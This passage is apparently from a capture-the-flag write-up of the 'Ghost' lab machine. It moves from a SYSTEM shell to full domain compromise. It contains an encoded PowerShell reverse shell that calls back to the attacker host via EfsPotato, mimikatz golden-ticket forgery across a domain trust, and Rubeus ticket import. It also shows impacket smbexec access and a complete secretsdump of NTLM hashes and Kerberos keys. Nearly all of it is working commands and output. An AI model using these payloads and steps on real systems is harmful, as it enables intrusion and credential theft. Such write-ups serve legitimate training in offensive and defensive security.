ps> .\EfsPotato.exe 'powershell -exec bypass -enc CgAkAGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAnADEAMAAuADEAMAAuADEANAAuADIANgAnACwANAA0ADMAKQA7AAoAJABzACAAPQAgACQAYwAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AAoAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAC4AUgBlAGEAZAAoACQAYgAsACAAMAAsACAAJABiAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewAKACAAIAAgACAAJABkACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIALAAwACwAIAAkAGkAKQA7AAoAIAAgACAAIAAkAHMAYgAgAD0AIAAoAGkAZQB4ACAAJABkACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7AAoAIAAgACAAIAAkAHMAYgAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBiACAAKwAgACcAcABzAD4AIAAnACkAOwAKACAAIAAgACAAJABzAC4AVwByAGkAdABlACgAJABzAGIALAAwACwAJABzAGIALgBMAGUAbgBnAHQAaAApADsACgAgACAAIAAgACQAcwAuAEYAbAB1AHMAaAAoACkACgB9ADsACgAkAGMALgBDAGwAbwBzAGUAKAApAAoA'
```

and yeah we got shell here

```bash
✗ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.24] 49851

ps> whoami
nt authority\system

```

but we are not at DC01 so yeah we have to get this

```bash
ps> hostname
PRIMARY
```

alright i load my beacon here


i think its about Golden Ticket and lets see we can try to get here BH data again try to see its really aabout Golden Ticket

## Golden Ticket

Allll we need is after this command btw

```bash
[03/11 10:25:56] beacon> mimikatz lsadump::trust /patch
```


WHY WE USED FIRST ONE????? CAUSE WE ARE TRYING TO GO CORP.GHOST.HTB → GHOST.HTB

SOOO OUR COMMAND HAS TO BE EQUAL

```bash
[03/11 10:33:53] beacon> mimikatz kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /aes256:7dac73340fdf6c9af2f64a3e8b9658c443470d84dc818de1de0f160b42174a26 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi
[03/11 10:33:53] [*] Tasked beacon to run mimikatz's kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /aes256:7dac73340fdf6c9af2f64a3e8b9658c443470d84dc818de1de0f160b42174a26 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi command
[03/11 10:34:11] [+] host called home, sent: 814339 bytes
[03/11 10:34:13] [+] received output:
User      : Administrator
Domain    : CORP.GHOST.HTB (CORP)
SID       : S-1-5-21-2034262909-2733679486-179904498
User Id   : 500
Groups Id : *513 512 520 518 519 
Extra SIDs: S-1-5-21-4084500788-938703357-3654145966-519 ; 
ServiceKey: 7dac73340fdf6c9af2f64a3e8b9658c443470d84dc818de1de0f160b42174a26 - aes256_hmac      
Service   : krbtgt
Target    : GHOST.HTB
Lifetime  : 3/11/2025 7:34:12 AM ; 3/9/2035 7:34:12 AM ; 3/9/2035 7:34:12 AM
-> Ticket : golden.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```


and yeah our file is here


now lets use Rubeus for import it!!!
```sh
[03/11 10:37:18] beacon> execute-assembly /home/elliot/tools/Rubeus.exe asktgs /ticket:C:\temp\golden.kirbi /service:cifs/DC01.GHOST.HTB /dc:GHOST.HTB /ptt /nowrap
[03/11 10:37:19] [*] Tasked beacon to run .NET program: Rubeus.exe asktgs /ticket:C:\temp\golden.kirbi /service:cifs/DC01.GHOST.HTB /dc:GHOST.HTB /ptt /nowrap
[03/11 10:37:42] [+] host called home, sent: 556402 bytes
[03/11 10:37:43] [+] received output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/DC01.GHOST.HTB'
[*] Using domain controller: GHOST.HTB (10.0.0.254)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFAjCCBP6gAwIBBaEDAgEWooIEAzCCA/9hggP7MIID96ADAgEFoQsbCUdIT1NULkhUQqIhMB+gAwIBAqEYMBYbBGNpZnMbDkRDMDEuR0hPU1QuSFRCo4IDvjCCA7qgAwIBEqEDAgEEooIDrASCA6h0fuSy58WVZrtiMZA17I5OWLd7cC7TFZBrEqYGP8bsSLV5hTYEnvgkYJmxdg7rwlu6HGjtftgezUlpAEW561xaXtEdyxB6pLVtDZb73oZ3wTyjEewJCpe6gZt7GCm56d7qT7yx9BesGulfU/xZPoSazvuHN/kJOnsjIyP7Jc+bG1VRucRFuRFBBj8aCpAICXMZ1CcTrT3zcJ5o55I6uZrxP2Mwy+ax3QMZvpUaG3N1DkIS3tg8rbPgLKU9/8+KoIEZngRZmcNDevsnICOLwZ69gvz/udUJGTbKMrZ+eDgAtZ5RQUfCbPh4UV4Ox4To+SpjhN9w0nkCZWoN3ksZjI/j1tZAsGQcLyaPu+gMaLthNPFocIQV1C9zSz/NP1gbHk0hrEYZ8TWv+bcVmDHRkk+LDkFRtf39wnCdSnCXpSmeO67lo79LndaiGPQv1Z+yPzDkSLWzqJZ+p3LhYQPRoTEvNnbHT6068mPBl+U3RF1Puvscprf8O5eRyloJn9lfRF7cEtnq5bzeB3U9MRXrNHSQwOx8oXggHYcgffmNRu/H4Rpqd8Imhm1qCHjT4CBdLyPU4Y8xekmr0OBOfXwJBBa6I/uM6DgInFN9v9MeGpdncRuqsM7dYpy42Uq6OkF8CzvDb3g9Ve+SQnqzJrPgoEFKCnwEFPSqOr314rv61+9JONzfqrXxEo1DS+eYrCc2koDAMOOiw0inHEpLtnWXcyEHUmTaBQjG7TrLa4QK2RgfuC5l3nuQeMOKiSRPajxXtwksjwImLnInPmDuohGyBQj1/b/CgiLFbQ6+gsT7ji88FW6p7HkvK0dcKE5LvJm7KP0aNbaTNACXF7Pjx2knnMqW1m8m2NFcVJIQZreNyAMd+rW/S8UexQ4/zwvXSD9mKKf1xKdXTygO9FpX7ixwCKSBtmx1ta9JDGASud5jAnKd/8/n9KM1mGyWtN3MyaqifzwpTMNgY9yA5SzhasDMtI+J7PdWMOnpbgH/3Hba0pRq7WzhHoSJrVraeXIZ/aPrcY7bG31sRu8XcvovPf+KOD2uny/IwxyHXtRIuwthq8GN3LQlRYrzMpQSf5uEHav5i0Aeb0s7rNS/0ysDlC9dzdrT7Ec0h36prZaxd7aRKEJ3hdoEmKNrp5rQhUbwuqQwG3kQPkcgohC/SkB9j2w3H7Hxpt3KB3oSw54Yi5pi0LIxJsXb4Lam8WuSx3BiZOSv/dibvwHKkcJNcN71VGQawNQXlI6GvtZt6qajgeowgeegAwIBAKKB3wSB3H2B2TCB1qCB0zCB0DCBzaArMCmgAwIBEqEiBCBbdZMQFHarGjb2L9UezcMos0Ers3mvgFvoMxwsPUVrXqEQGw5DT1JQLkdIT1NULkhUQqIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAEClAAClERgPMjAyNTAzMTExNDM3NDJaphEYDzIwMjUwMzEyMDAzNzQyWqcRGA8yMDI1MDMxODE0Mzc0MlqoCxsJR0hPU1QuSFRCqSEwH6ADAgECoRgwFhsEY2lmcxsOREMwMS5HSE9TVC5IVEI=

  ServiceName              :  cifs/DC01.GHOST.HTB
  ServiceRealm             :  GHOST.HTB
  UserName                 :  Administrator
  UserRealm                :  CORP.GHOST.HTB
  StartTime                :  3/11/2025 7:37:42 AM
  EndTime                  :  3/11/2025 5:37:42 PM
  RenewTill                :  3/18/2025 7:37:42 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  W3WTEBR2qxo29i/VHs3DKLNBK7N5r4Bb6DMcLD1Fa14=
```
and booom!!!!!!!


oket lets look at klist


okey lets grab kirbi file and access machine on linux

Finallly!!!!!!!!!!!!

kirbi → ccache

```bash
➜  admin python3 /opt/impacket/examples/ticketConverter.py admin.kirbi admin.ccache
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

export it and look at klist

```bash
➜  admin export KRB5CCNAME=admin.ccache 
➜  admin klist
Ticket cache: FILE:admin.ccache
Default principal: Administrator@CORP.GHOST.HTB

Valid starting       Expires              Service principal
03/11/2025 10:43:08  03/11/2025 20:43:08  cifs/DC01.GHOST.HTB@GHOST.HTB
        renew until 03/18/2025 10:43:08
```

and BOOOM!!!!!!!

```bash
➜  admin python3 /opt/impacket/examples/smbexec.py administrator@DC01.ghost.htb -k -no-pass -dc-ip 10.10.11.24
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname
DC01

C:\Windows\system32>
```


## FULL-DUMP

```sh
➜  admin python3 /opt/impacket/examples/secretsdump.py -k -no-pass DC01.ghost.htb 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x3ee624e56316fc8523b59f72d191a0cd
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ab8f4de89a9d5461a503ee5a8d6020ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
GHOST\DC01$:plain_password_hex:3e329a9f2e0072a09e1e04635a6dda1f76cb8660c8bb918c6f9e73f3aafca1646034ca54c0b0d202c756aa5c45f0ac2db8583a8203e02c7083f97f6e0af338a3d4165df84ff4e339a8abf607371a5870c42a8a5b6ecfb80d899b0438eb3aed3b796ad904f723fd381ad9858f6403d4752a36fd16d40d7cdeb2f5eaf13fe565c565b150224d43acbfb16161cfba2e3eed6c408213b62bcb1ef7a4e759e34c2971b21d5f617b036cdc2bb658bd9af580646a2e89dad00d6386fd508e14c23164647813b440966dfd73e9ae6f3eb6c94381978f9757aa8a51ac9a00dfed31facb1f22422e4cca75ba8518ff7882ef94d5a4
GHOST\DC01$:aad3b435b51404eeaad3b435b51404ee:e6c3d61860f92e30e8e9744ac5d9783b:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x873c8dce6c211764839e23119defe1090cd9c0c0
dpapi_userkey:0xceba98a9e43ef2dd80788854c12b7af873b0b590
[*] NL$KM 
 0000   6A BE D2 DA 55 7A 8B 7A  33 C4 07 B2 80 79 27 91   j...Uz.z3....y'.
 0010   F1 2B AA 30 EA 46 CC 74  F2 43 97 29 4C 0B AC 03   .+.0.F.t.C.)L...
 0020   B5 69 AB 0E 15 3C F6 2E  EB AC A5 39 89 EA 58 B0   .i...<.....9..X.
 0030   BD 14 14 9A 85 58 60 94  1C 12 4A 97 7F 54 24 33   .....X`...J..T$3
NL$KM:6abed2da557a8b7a33c407b280792791f12baa30ea46cc74f24397294c0bac03b569ab0e153cf62eebaca53989ea58b0bd14149a855860941c124a977f542433
[*] _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_ee4cab5223967daca72a9fc555816b05afedd0b470e337963aef35e5eb7f13ff 
 0000   4C 49 6B 0B 59 75 6E CD  B5 FC 98 20 02 10 E3 F1   LIk.Yun.... ....
 0010   EE 6C E4 13 25 1F C2 2A  7F 4A 13 A8 54 E8 09 B8   .l..%..*.J..T...
 0020   02 D5 24 BA 9E 9B BC B2  38 A9 9A B1 AD BB 56 AA   ..$.....8.....V.
 0030   5A 17 42 EA 3B 5B 4D BC  9C 40 9B 39 CA 6F DB 4A   Z.B.;[M..@.9.o.J
 0040   46 08 60 81 FE EA 88 72  2E F2 AC 0F 72 5D 80 C2   F.`....r....r]..
 0050   F7 97 58 2C 74 EE 89 DA  73 DE 97 28 3A FD 2A 3E   ..X,t...s..(:.*>
 0060   1A 3E E2 76 DB 41 15 14  E0 AE 1F 93 F1 60 00 F2   .>.v.A.......`..
 0070   67 93 60 EE 5D 3C 88 0F  1A 2D AF 03 F6 1A ED CD   g.`.]<...-......
 0080   6B 9E 74 4B 34 A9 64 88  B2 7F 2F 4E EB 82 A7 D9   k.tK4.d.../N....
 0090   37 EF C0 48 82 64 33 2A  21 B9 04 E4 7D A9 E3 45   7..H.d3*!...}..E
 00a0   C9 2F 4D C6 58 DF D4 6E  FA F5 A0 86 A0 F8 E0 7C   ./M.X..n.......|
 00b0   67 8F E2 A5 C3 E9 BB 06  58 AF 23 7E AD C7 05 50   g.......X.#~...P
 00c0   F4 4C EC 1A 23 73 19 13  E0 88 8E EA BE 5D 10 D5   .L..#s.......]..
 00d0   50 ED 14 93 42 2B 96 91  2B 07 D7 B1 4C 3A B0 75   P...B+..+...L:.u
 00e0   7A 8E 49 D4 6D E7 10 65  F7 AC 5D BB F3 4B DA 4E   z.I.m..e..]..K.N
_SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_ee4cab5223967daca72a9fc555816b05afedd0b470e337963aef35e5eb7f13ff:4c496b0b59756ecdb5fc98200210e3f1ee6ce413251fc22a7f4a13a854e809b802d524ba9e9bbcb238a99ab1adbb56aa5a1742ea3b5b4dbc9c409b39ca6fdb4a46086081feea88722ef2ac0f725d80c2f797582c74ee89da73de97283afd2a3e1a3ee276db411514e0ae1f93f16000f2679360ee5d3c880f1a2daf03f61aedcd6b9e744b34a96488b27f2f4eeb82a7d937efc0488264332a21b904e47da9e345c92f4dc658dfd46efaf5a086a0f8e07c678fe2a5c3e9bb0658af237eadc70550f44cec1a23731913e0888eeabe5d10d550ed1493422b96912b07d7b14c3ab0757a8e49d46de71065f7ac5dbbf34bda4e
[*] _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_ee4cab5223967daca72a9fc555816b05afedd0b470e337963aef35e5eb7f13ff 
 0000   01 00 00 00 24 02 00 00  10 00 12 01 14 02 1C 02   ....$...........
 0010   5A C0 FA 3B E7 78 A9 27  1C B8 88 2E E0 E0 B3 AA   Z..;.x.'........
 0020   50 A6 C0 32 DB 7A 86 30  CD F5 FA 7E 2F E7 16 59   P..2.z.0...~/..Y
 0030   A0 DE F4 6B 6F ED DB 14  CC 51 37 98 83 07 DE 59   ...ko....Q7....Y
 0040   43 A8 AC 1F 76 87 DF 51  85 87 9B EE AC F5 F9 AF   C...v..Q........
 0050   63 F8 AC 4C FE 25 A6 C6  F4 E8 41 DD BC C0 93 33   c..L.%....A....3
 0060   0E C6 A9 3B DF 0D 65 52  BB CF 6F 1E FE 11 91 6E   ...;..eR..o....n
 0070   0A 82 67 22 10 E3 0C 58  2A B5 4F B8 28 01 05 4C   ..g"...X*.O.(..L
 0080   F5 22 F2 41 FD B9 9B 70  C9 4D F0 6A 15 EE B6 A5   .".A...p.M.j....
 0090   CD 69 DE 2B F4 52 A1 60  68 F3 4D 47 74 C0 FB 26   .i.+.R.`h.MGt..&
 00a0   71 8D 24 52 69 D9 21 87  81 23 2C 89 C6 1D 54 75   q.$Ri.!..#,...Tu
 00b0   8B 5A 4D 97 5B 5E BC FC  F8 15 1B AD 49 11 EE AA   .ZM.[^......I...
 00c0   80 69 49 44 4D A3 F3 F3  0C 6B 32 23 E8 D3 04 DF   .iIDM....k2#....
 00d0   74 36 60 73 20 FE 9A 67  2C 20 CF 2D 26 31 9A 60   t6`s ..g, .-&1.`
 00e0   29 F9 1D 76 D1 B0 72 38  82 16 1D F9 96 CD 64 A3   )..v..r8......d.
 00f0   C3 D4 84 1F 3A 62 02 6B  4D 79 68 F1 46 CB E1 9D   ....:b.kMyh.F...
 0100   3B DB 4F 0C AA 37 26 68  2B 61 27 0A C2 8A D5 7B   ;.O..7&h+a'....{
 0110   00 00 D1 83 4F FF 98 05  C6 B7 8A 3C 1C FC 10 25   ....O......<...%
 0120   3B 98 66 66 68 97 EE E9  02 EA EC 41 A4 4C 1B 90   ;.ffh......A.L..
 0130   A6 2C 8C 47 56 03 51 3C  21 6B AA 48 D9 C3 3D 7A   .,.GV.Q<!k.H..=z
 0140   91 86 E8 9F 99 50 18 AB  A7 0D 00 CD 13 D6 B9 0A   .....P..........
 0150   68 11 D0 3B C1 68 21 19  FA 4A 64 66 D3 62 70 12   h..;.h!..Jdf.bp.
 0160   36 B7 D5 43 F6 49 08 D8  E4 2F 5F 27 7D E3 07 05   6..C.I.../_'}...
 0170   49 CA 37 0E 1E B2 FC 4D  48 27 A1 6F 3C CA 11 19   I.7....MH'.o<...
 0180   B5 A4 1C 62 FF B0 C4 C9  45 90 A3 5E B9 5D F5 A2   ...b....E..^.]..
 0190   41 26 07 D3 51 66 FD A8  26 0D FC 11 E7 6E E2 9B   A&..Qf..&....n..
 01a0   DF 4F 52 C8 B8 4A 00 CF  B5 1C 7F 04 B0 02 60 F5   .OR..J........`.
 01b0   11 D7 73 65 2E CA F7 00  4F 8A EC FE 8A 86 1B AC   ..se....O.......
 01c0   98 15 84 82 50 DF BA F2  3D 71 C7 52 D7 63 FC 1B   ....P...=q.R.c..
 01d0   61 A0 6D C4 86 72 A7 55  50 BE 2E C9 54 3A 99 2A   a.m..r.UP...T:.*
 01e0   2D 2E AD 99 9F 4B 0B 4B  43 4B EC D6 67 6E A1 B2   -....K.KCK..gn..
 01f0   9B 42 C9 AC A4 B2 B5 29  68 16 A6 70 5B 08 54 EF   .B.....)h..p[.T.
 0200   B2 74 7F 7A 77 66 70 4B  17 7F 5C 83 3D 9F CE 29   .t.zwfpK..\.=..)
 0210   40 6A 00 00 0C 69 EB 57  B0 0D 00 00 0C 0B 1B A5   @j...i.W........
 0220   AF 0D 00 00                                        ....
_SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_ee4cab5223967daca72a9fc555816b05afedd0b470e337963aef35e5eb7f13ff:01000000240200001000120114021c025ac0fa3be778a9271cb8882ee0e0b3aa50a6c032db7a8630cdf5fa7e2fe71659a0def46b6feddb14cc5137988307de5943a8ac1f7687df5185879beeacf5f9af63f8ac4cfe25a6c6f4e841ddbcc093330ec6a93bdf0d6552bbcf6f1efe11916e0a82672210e30c582ab54fb82801054cf522f241fdb99b70c94df06a15eeb6a5cd69de2bf452a16068f34d4774c0fb26718d245269d9218781232c89c61d54758b5a4d975b5ebcfcf8151bad4911eeaa806949444da3f3f30c6b3223e8d304df7436607320fe9a672c20cf2d26319a6029f91d76d1b0723882161df996cd64a3c3d4841f3a62026b4d7968f146cbe19d3bdb4f0caa3726682b61270ac28ad57b0000d1834fff9805c6b78a3c1cfc10253b9866666897eee902eaec41a44c1b90a62c8c475603513c216baa48d9c33d7a9186e89f995018aba70d00cd13d6b90a6811d03bc1682119fa4a6466d362701236b7d543f64908d8e42f5f277de3070549ca370e1eb2fc4d4827a16f3cca1119b5a41c62ffb0c4c94590a35eb95df5a2412607d35166fda8260dfc11e76ee29bdf4f52c8b84a00cfb51c7f04b00260f511d773652ecaf7004f8aecfe8a861bac9815848250dfbaf23d71c752d763fc1b61a06dc48672a75550be2ec9543a992a2d2ead999f4b0b4b434becd6676ea1b29b42c9aca4b2b5296816a6705b0854efb2747f7a7766704b177f5c833d9fce29406a00000c69eb57b00d00000c0b1ba5af0d0000
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cdb17d5c14ff69e7067cffcc9e470bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0cdb6ae71c3824f2da2815f69485e128:::
kathryn.holland:3602:aad3b435b51404eeaad3b435b51404ee:0adf6114ba230ef8f023eca3c0d1af50:::
cassandra.shelton:3603:aad3b435b51404eeaad3b435b51404ee:96d2251e44e42816314c08b8e1f11b87:::
robert.steeves:3604:aad3b435b51404eeaad3b435b51404ee:7e2e1e1163ff3fa9304ecd8df6f726fe:::
florence.ramirez:3606:aad3b435b51404eeaad3b435b51404ee:29542931896c7e7a9fbca17b0dd8ab6a:::
justin.bradley:3607:aad3b435b51404eeaad3b435b51404ee:a2be8ec65d6b212138cb36422ed32f46:::
arthur.boyd:3608:aad3b435b51404eeaad3b435b51404ee:b5b7f0787f3c07f42958d33518ae19a5:::
beth.clark:3610:aad3b435b51404eeaad3b435b51404ee:1582f51fcd02e2e5316d497f2552bb83:::
charles.gray:3611:aad3b435b51404eeaad3b435b51404ee:d2fe7f2c7484fc550cac49836eabca3d:::
jason.taylor:3612:aad3b435b51404eeaad3b435b51404ee:0159e6bd4326812f9a6c406ea84035e6:::
intranet_principal:3614:aad3b435b51404eeaad3b435b51404ee:e9fac15124e1d927cbd71f851792b04f:::
gitea_temp_principal:3615:aad3b435b51404eeaad3b435b51404ee:2058fa4502750fa5d7ebd874b1ea43a1:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6c3d61860f92e30e8e9744ac5d9783b:::
LINUX-DEV-WS01$:3630:aad3b435b51404eeaad3b435b51404ee:47d35dde2192aee96bc45beaf8c50327:::
adfs_gmsa$:4101:aad3b435b51404eeaad3b435b51404ee:4b020ee46c62ff8181f96de84088ff37:::
GHOST-CORP$:2101:aad3b435b51404eeaad3b435b51404ee:a7874984c0ead2e0258a7b5671bc4daa:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:83d3226d3b2b12e89df0470c2c245fec1de69ee73195d907ed49c125a925ee76
Administrator:aes128-cts-hmac-sha1-96:44ca6c3d49fe2089d5dc5fe4f4a9f8cb
Administrator:des-cbc-md5:9de66dcbcbf8ae92
krbtgt:aes256-cts-hmac-sha1-96:2d753565cb0e7c60787b71b64a2bb6c7ec4aad554f520782c00dedd9f8efd51a
krbtgt:aes128-cts-hmac-sha1-96:a37d74f126e6f7da7f916b90403f4c73
krbtgt:des-cbc-md5:4f4cea5134df672a
kathryn.holland:aes256-cts-hmac-sha1-96:bb344e4276a9bec1137ed98d0848711cf7501c611ff50e39fb64e6238ebe9670
kathryn.holland:aes128-cts-hmac-sha1-96:af3b44ab8de1546bad51aa67bedf737b
kathryn.holland:des-cbc-md5:9b0b1c32fbe5d601
cassandra.shelton:aes256-cts-hmac-sha1-96:d2e2d7d2b410a77f0b89697f11f48009fb3ad3339f5e8e9588ecd4cb8b6c2a80
cassandra.shelton:aes128-cts-hmac-sha1-96:85d10b93011d9bf916c62301824d6c01
cassandra.shelton:des-cbc-md5:ba16fda8df52f297
robert.steeves:aes256-cts-hmac-sha1-96:21fa7d9b64f2858c8db1d3314ba8bb134677f9033fccfeaa88546d4f97d83c6c
robert.steeves:aes128-cts-hmac-sha1-96:67975e221fe0a0cebaf0add64a875433
robert.steeves:des-cbc-md5:c13e9ba2705bd398
florence.ramirez:aes256-cts-hmac-sha1-96:1289980d0bec171109ec640219279874334bebd1318aa072b5e7f3428dad198e
florence.ramirez:aes128-cts-hmac-sha1-96:1d3c8a95037580f3b7be57929a7ab177
florence.ramirez:des-cbc-md5:4ac83285ce5b2c0e
justin.bradley:aes256-cts-hmac-sha1-96:80714d87657f38e85c81742e1a68043d5d2f5cc68fd997555762e1a9d92b77ba
justin.bradley:aes128-cts-hmac-sha1-96:ea24795394bb6fadfb29277fd3c2630a
justin.bradley:des-cbc-md5:08156d73d31f6b4a
arthur.boyd:aes256-cts-hmac-sha1-96:01b137754a7664fc6f3dd4a735ae57c963172fc66a3983fff10a3ac7bca810e7
arthur.boyd:aes128-cts-hmac-sha1-96:b0e21a76869a6ef61a2934f047991bca
arthur.boyd:des-cbc-md5:cb644f519edf8079
beth.clark:aes256-cts-hmac-sha1-96:2666f06d2c1cc776aa5f36319a829491036ddd3faf31b91b4a54c759797ca13c
beth.clark:aes128-cts-hmac-sha1-96:f85a08977f96b9a785e537d67c161b12
beth.clark:des-cbc-md5:f732ef156ecd38d3
charles.gray:aes256-cts-hmac-sha1-96:66f1ac768fbdd2dc8ce5b1db31a07db6b194043ade26ebe8410b49d082498963
charles.gray:aes128-cts-hmac-sha1-96:3decbd0ea7a41bfc3faf31d6ba41631f
charles.gray:des-cbc-md5:f4345b029767bc54
jason.taylor:aes256-cts-hmac-sha1-96:94bc50eff4ee4c008f4db64836d5bf516dd6ac638927ec26029b4d9c053368b3
jason.taylor:aes128-cts-hmac-sha1-96:fc5ccdf9e506010c2942bb98f35fce08
jason.taylor:des-cbc-md5:d668133bb33446bc
intranet_principal:aes256-cts-hmac-sha1-96:e4789461db237d0162bfa21a9baeadbe69a25df7e81fc3fbc538a85396ff64e0
intranet_principal:aes128-cts-hmac-sha1-96:327d1bcbc2e684cfdf5884b79c8e2dff
intranet_principal:des-cbc-md5:d9aba74057435ef2
gitea_temp_principal:aes256-cts-hmac-sha1-96:351c63c5870d212b7a3feac31b6a80e6fb55036ead4da737177597a42939c249
gitea_temp_principal:aes128-cts-hmac-sha1-96:d70cc894c2388dd4c3b67731dafcf733
gitea_temp_principal:des-cbc-md5:512338250b8c4fd0
DC01$:aes256-cts-hmac-sha1-96:15052f0a46c62d5a1eea1dc98ce9367f2aeb1e4328f14aa1b86d3a6b760f07ba
DC01$:aes128-cts-hmac-sha1-96:462f64af96c7b965cc508d26679ee09c
DC01$:des-cbc-md5:c82646c8c791ae70
LINUX-DEV-WS01$:aes256-cts-hmac-sha1-96:c6576f5a9a70f9a81dd55d1e304b3dbe06060303633006dd93fadc87478e6997
LINUX-DEV-WS01$:aes128-cts-hmac-sha1-96:f53c393602b40054eb1ad302266f221c
LINUX-DEV-WS01$:des-cbc-md5:d654376149f8e5ab
adfs_gmsa$:aes256-cts-hmac-sha1-96:166962928711238e19652fca11b550a40c06f8da560f405ecd624e2c22f694e8
adfs_gmsa$:aes128-cts-hmac-sha1-96:7ac93072e6ffe3d4448da7e5b514e61f
adfs_gmsa$:des-cbc-md5:d5923e32708f8c7f
GHOST-CORP$:aes256-cts-hmac-sha1-96:da538ef9718a1a0ed82ef856b133d4c130779f8567dfd11756cd28cb68e606d0
GHOST-CORP$:aes128-cts-hmac-sha1-96:e6df29f8b41da501b37877bd06774e0b
GHOST-CORP$:des-cbc-md5:fbefe3f1574501f1
```